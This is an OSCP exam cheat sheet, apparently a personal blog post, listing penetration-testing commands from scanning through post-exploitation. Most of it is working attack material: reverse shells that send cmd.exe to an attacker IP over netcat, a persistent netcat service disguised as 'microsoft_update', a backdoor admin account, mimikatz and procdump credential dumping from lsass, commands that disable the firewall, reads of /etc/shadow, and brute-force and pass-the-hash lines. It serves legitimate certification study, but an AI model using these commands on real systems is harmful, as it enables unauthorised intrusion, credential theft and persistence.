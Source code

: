```yaml
---
title:  "OSCP Cheat Sheet"
header: "OSCP Cheat Sheet"
categories: 
  - Cheatsheet
  - OSCP
tags:
  - OSCP
---
```


Here are some commands that I found helpful during the OSCP. I encourage you to take a look at the resource links that I've posted here to go in further detail in many of these topics.

# Pre  
***

Scanning
General pass - nmap <IP> --top-ports 10 --open
Intense scan - nmap -p 1-65535 -T4 -A -v <IP>

Web
nitko -h <IP>
dirb http://<IP> /usr/share/wordlists/dirb/<insert related list>
(/usr/share/secLists/Discovery has great word lists)
finmap -u <IP>
./dotdotpwn.pl -m <MODULE> -h <HOST> [OPTIONS]
wpscan –url http://<IP>/ –enumerate p
https://evilzone.org/tutorials/remote-file-inclusion%28rfi%29/
http://www.hackersonlineclub.com/lfi-rfi
https://0xzoidberg.wordpress.com/category/security/lfi-rfi/

SMB/RPC
enum4linux -a <IP>
nmap --script=smb* -p <PORT(S)> <IP>
rpcclient <IP> -U "" -N
showmount -e <IP>/<PORT>
mount -t cifs //<IP>/<SHARE> <LOCAL DIRECTORY> -o username="guest",password=""
net view \\<IP>
nbtscan -r <IP>
smbclient -L \\<IP> -U "" -N
rlogin <IP>
nmblookup -A target

SQL
nmap -sV -Pn -vv –script=mysql* <IP> -p <PORT>
sqlmap -u <IP> –crawl=1
sqlmap -u http://<IP>/page.php?commen=761 –DBMS=mysql –os-shell
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
http://resources.infosecinstitute.com/backdoor-sql-injection/

SMTP
nmap –script=smtp* -p <PORT> <IP>

SNMP
snmpwalk -c public -v1 <IP>
snmpenum -t <IP>
Onesixtyone – c <COMMUNITY FILE> -I <IP>

FTP
nmap –script=ftp* -p <PORT> <IP>
ftp://<IP>

DNS
./dnsrecon.py -d <DOMAIN>
./dnsrecon.py -d <DOMAIN> -t axfr
./dnsrecon.py -d <DOMAIN> -D <NAME LIST> -t brt
./dnsrecon.py -d <HOST> -t zonewalk
nmap –script=dns-zone-transfer -p 53 ns2.megacorpone.com
nmap <IP> -p- -sV --reason --dns-server 1.2.3.4

Pass-the-Hash
pth-winexe -U <HASH> //<IP> cmd

# During  
***

Password Cracking
(Discover type of hash that you have) hash-identifier
John the Ripper
/etc/shadow
 - Create a file with passwd
 - Create a file with shadow
 - Combine into one document
   -unshadow <passwd file location> <shadow file location> > <new combined file>
 - john --wordlist=<any word list> <combined file location>

Hydra
Hydra -L <USER FILE> -P <PASS FILE> -v <IP> ssh

Medusa
Medusa -h <IP> -U <USER FILE> -P <PASS FILE> -M http -m DIR:/admin -T 30

Hashcat
hashcat -m 400 -a 0 <HASH FILE> <WORD LIST>

TTY Shells
See shells section

Metaplsoit Payloads
See msfvenom cheat sheet

Metasploit commands
sysinfo
getuid
search -f *pass*.txt
shell
getprivs
session -i 1 ---puts you back into your session

Turn a regular shell into a meterpreter shell
Attacker
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost <IP>
set lport <PORT>
run
Target
nc -vn <IP> <PORT> -e cmd.exe
Attacker
Ctrl+Z (to background session)
sessions -l (this will list your sessions to verify which one it is)
setg rhost <IP>
setg lhost <IP>
sessions -u 1 (the 1 is the session number)


Netcat
See netcat cheat sheet

Useful Windows Commands
net view
net user
net localgroup Users
net localgroup Administrators
net user hacker password1 /add
net localgroup administrators hacker /add
search dir/s *.doc
system(“start cmd.exe /k $cmd”)
sc create microsoft_update binpath=”cmd /K start c:\nc.exe -d <IP> <PORT> -e cmd.exe” start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv <IP> <PORT>
mimikatz.exe “privilege::debug” “log” “sekurlsa::logonpasswords”
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe “sekurlsa::minidump lsass.dmp” “log” “sekurlsa::logonpasswords”
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
netsh firewall set opmode disable
%SYSTEMDRIVE%\boot.ini
%WINDRIVE%\win.ini
type %WINDRIVE%\System32\drivers\etc\hosts

Useful Nix Commands
SUID root files
find / -user root -perm -4000 -print
SGID root files:
find / -group root -perm -2000 -print
SUID & SGID files ownership
find / -perm -4000 -o -perm -2000 -print
Files not owned by anyone
find / -nouser -print
Files not owned by any group
find / -nogroup -print
Symlinks and their pointers
find / -type l -ls


Download an EXE from FTP server
echo open IP> C:\script.txt
echo user myftpuser>> C:\script.txt
echo pass myftppass>> C:\script.txt
echo get nc.exe>> C:\script.txt
echo bye>> C:\script.txt
ftp -s:script.txt

Shells
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
http://www.r57shell.net/




# Post  
***

Windows looting (brief)
systeminfo 
type boot.ini 
hostname
ipconfig /all
netstat -ano 
net users 
net localgroup
route print 
arp -A 
netsh firewall show state
netsh firewall show config
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v
net start
accesschk.exe -uwcqv "Authenticated Users" *
dir network-secret.txt /s
windump -i 2 -w capture -n -U -s 0 src not <IP> and dst not <IP>

Nix looting (brief)
locate proof.txt/network-secret.txt
find -name "proof.txt"/"network-secret.txt"
uname -a
cat /proc/version
cat /etc/passwd
cat /etc/shadow
cat /etc/group
ls -alR | grep ^d
ifconfig -a
netstat -ano
cat /etc/hosts
arp -a
tcpdump -i eth0 -w capture -n -U -s 0 src not <IP> and dst not <IP>
tcpdump -vv -i eth0 src not <IP> and dst not <IP>

SSH Pivoting
ssh -D <IP>:1080 -p 22 user@IP
Add socks4 <IP> 1080 in /etc/proxychains.conf
proxychains commands target

Packet Sniffing
tcpdump -i tap0  host <IP> tcp port 80 and not arp and not icmp -vv
tcpdump -i eth0 -w capture -n -U -s 0 src not <ATTACKING IP> and dst not <ATTACKING IP>
tcpdump -vv -i eth0 src not <ATTACKING IP> and dst not <ATTACKING IP>

# Other  
***

Quick Kali Configuration
SSH
Start
service ssh start
Stop
service ssh stop

HTTP Service
Start
service apache2 start
Verify its running
http://127.0.0.1
Directory
/var/www/
Stop
service apache2 stop

Update boot sequence
update-rc.d ssh enable
update-rc.d apache2 enable
rcconf (GUI)

Compiling Exploits
32-bit
gcc -m32 -o output32 hello.c
64-bit
gcc -o output hello.c

Windows Compiling
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o exploit.exe /tmp/exploit.c -lwsock32
wine exploit.exe
















